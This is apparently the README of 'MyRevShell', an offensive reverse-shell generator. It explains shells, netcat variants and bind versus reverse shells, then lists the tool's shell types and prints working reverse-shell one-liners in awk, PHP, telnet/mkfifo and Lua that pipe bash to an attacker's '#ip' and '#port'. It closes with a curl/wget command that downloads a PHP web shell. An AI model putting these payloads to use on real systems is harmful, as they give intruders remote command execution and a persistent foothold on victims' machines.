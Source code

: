 # What is a Shell?
> - Shell is a program whose function is to provide an interface for users of an operating system to access kernel services. 
> - In general, operating system shells use either a command line interface (CLI) or a graphical user interface (GUI). 
> - It's called a shell because it's the outermost layer around the operating system. 
> #### More information: [Wikipedia-Shell](https://en.wikipedia.org/wiki/Shell_%28computing%29)
---

# What is the Netcat? 
> - Considered the Swiss army knife of TCP/IP, Netcat is a networking tool used to read and write data over the network using TCP or UDP protocols. 
> ### Types:
> - [Ncat](https://nmap.org/ncat/)
> - [The GNU Netcat](https://netcat.sourceforge.net/)
> - [Netcat Tradicional](https://packages.debian.org/sid/netcat-traditional)
> - [Netcat OpenBSD](https://packages.debian.org/sid/netcat-openbsd)
> - [Netcat6](http://www.deepspace6.net/projects/netcat6.html)
> - [Socat](http://www.dest-unreach.org/socat/)
> #### More information: [Wikipedia-Netcat](https://en.wikipedia.org/wiki/Netcat)
---

# Reverse Shell and Bind Shell
> ### Bind Shell: 
> - Have the listener running on the target and the attacker connects to the listener to get a remote shell. 
> - The attacker must know the IP address of the victim before launching the Bind Shell. 
> - Bind Shell sometimes will fail, because modern firewalls don’t allow outsiders to connect to open ports.
> ### Reverse Shell:
> - Have the listener running on the attacker and the target connects to the attacker with a shell.
> - The attacker doesn’t need to know the IP address of the victim, because the attacker is going to connect to our open port.
> - Reverse Shell can bypass the firewall issues because this target machine tries to connect to the attacker, so the firewall doesn’t bother checking packets.
---

# MyRevShell
> The script has 16 shell generator options + 1 base64 encode option 
> ### Types:
> - "sh"
> - "zsh"
> - "bash"
> - "nc -c"
> - "nc -e"
> - "nc.exe -e"
> - "nc mkfifo"
> - "ncat -e"
> - "ncat.exe -e"
> - "python x1"
> - "python x2"
> - "python3 x1"
> - "python3 x2"
> - "python3 shortest"
> - "socat x1"
> - "socat x2"
> #### Extra:
> - Awk Shell:
> ``` 
> awk 'BEGIN {s = "/inet/tcp/0/#ip/#port"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } > } while(c != "exit") close(s); }}' /dev/null
> ```
> - PHP exec: 
> ```
> php -r '$sock=fsockopen("#ip",#port);exec("bash <&3 >&3 2>&3");'
> ```
> - Telnet:
> ```
> TF=$(mktemp -u);mkfifo $TF && telnet #ip #port 0<$TF | bash 1>$TF
> ```
> - Lua:
> ```
> lua -e "require('socket');require('os');t=socket.tcp();t:connect('#ip','#port');os.execute('bash -i <&3 >&3 2>&3');"
> ```
> ### Web Shell: 
> Download: 
> - **Curl/Wget: `curl/wget https://raw.githubusercontent.com/h0ru/My-Shell/main/shell.php -O shell.php`**
---
